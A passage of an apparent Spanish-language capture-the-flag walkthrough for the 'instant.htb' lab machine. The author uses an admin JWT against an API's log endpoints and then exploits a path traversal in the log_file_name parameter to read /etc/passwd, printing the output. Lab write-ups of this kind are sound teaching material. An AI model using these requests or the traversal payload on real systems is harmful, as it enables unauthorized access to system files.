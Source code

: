Como en users no encontramos ninguna credencial ni nada parecido, vamos a comprobar que hay en los relacionados con los `logs`.

```
curl -sX GET -H 'Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA' "http://swagger-ui.instant.htb/api/v1/admin/view/logs" | jq
```

```json
{
  "Files": [
    "1.log"
  ],
  "Path": "/home/shirohige/logs/",
  "Status": 201
}
```

Vemos que hay un log `1.log` y que todos los logs están en el directorio `/home/shirohige/logs/`. Vamos a leer este log.

```
curl -sX GET -H 'Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA' "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=1.log" | jq
```

```json
{
  "/home/shirohige/logs/1.log": [
    "This is a sample log testing\n"
  ],
  "Status": 201
}
```

No hay nada interesante en este log. Sin embargo, al estar leyendo archivos en un directorio, podriamos probar con un **path traversal**. Intentaremos leer el `/etc/passwd`.

```
curl -sX GET -H 'Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA' "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=../../../etc/passwd" | jq -r '."/home/shirohige/logs/../../../etc/passwd"[]' | tr -s '\n'

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
dhcpcd:x:100:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false
```